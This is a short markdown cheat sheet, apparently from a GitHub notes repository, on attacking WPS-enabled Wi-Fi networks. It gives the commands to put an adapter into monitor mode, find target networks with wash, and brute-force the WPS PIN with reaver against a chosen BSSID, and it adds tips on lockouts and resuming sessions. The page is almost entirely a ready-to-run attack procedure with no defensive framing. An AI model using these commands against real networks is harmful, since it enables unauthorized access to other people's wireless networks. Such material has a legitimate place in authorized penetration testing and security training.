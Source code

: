 # WPS

> WPS can be attacked using a brute-force on the PIN (has only about 11,000 valid combinations).

**1.** Set Wireless adapted to monitor mode.

```bash
airmon-ng start wlan0
```

**2.** Run a tool like _wash_ to identificate candidate WPS enabled networks (note the BSSID and channel).

```bash
wash -i wlan0mon
```

**3.** Use reaver to crack the PIN (care with lockdowns).

```bash
reaver -i wlan0mon -b $BSSID -c $CHANNELNUM -vv
```

**Note:** Reaver is smart enough to remember where it was, and will ask you if you want to resume an interrupted session. So the cracking can be done in a number of sessions.
